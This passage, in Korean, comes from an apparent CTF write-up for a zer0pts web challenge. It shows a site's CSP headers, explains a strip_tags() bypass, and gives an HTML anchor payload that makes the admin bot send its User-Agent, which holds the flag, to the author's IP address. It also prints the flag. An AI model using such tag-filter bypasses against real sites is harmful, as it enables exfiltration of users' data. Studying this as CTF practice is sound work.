 <b>*<span style="color:#631F9C">&#62;</span> init.php*</b>
```php
header("Content-Security-Policy: default-src 'self'; object-src 'none'; script-src 'nonce-${nonce}' 'strict-dynamic'; base-uri 'none'; trusted-types");
header('X-Frame-Options: DENY');
header('X-XSS-Protection: 1; mode=block');
```
<strong>그래서 XSS를 이용해서 User-Agent 값을 가져와야 하나 생각을 했지만 위와 같이 CSP가 걸려 있어 불가능해보였습니다,, 하지만 아까 util.php의 render_tags() 함수에서 strip_tags() 함수를 사용해서 태그를 검증하고 있었는데 이때 함수를 우회해서 a 태그를 사용할 수 있었습니다.</strong><br><br>

<strong>그럼 content의 값으로 "&#60;a id='like' href='myip'&#62;&#60;/a&#62;"를 주면 click('#like')에 의해서 User-Agent에 FLAG가 들어있는 상태로 myip로 요청이 갈 것 입니다.</strong>

<b>*<span style="color:#631F9C">&#62;</span> Exploit*</b>

![](https://github.com/wjddnjs33/image2/blob/main/스크린샷%202020-12-27%20오후%206.54.47.png?raw=true)
```html
<a/udio id="like" href="http://141.164.52.207:12345">GG</a>
```
<strong>그래서 위 페이로드를 `Content`의 값으로 넘겨주니 요청이 내 서버로 전송이 된 것을 확인할 수 있었고, User-Agent 헤더의 flag가 있는 것도 볼 수 있었습니다.</strong>

`FLAG : zer0pts{M4sh1m4fr3sh!!}`

---

### (Web) phpNantoKaAdmin [755pts]

<strong>귀찮다.</strong>


---


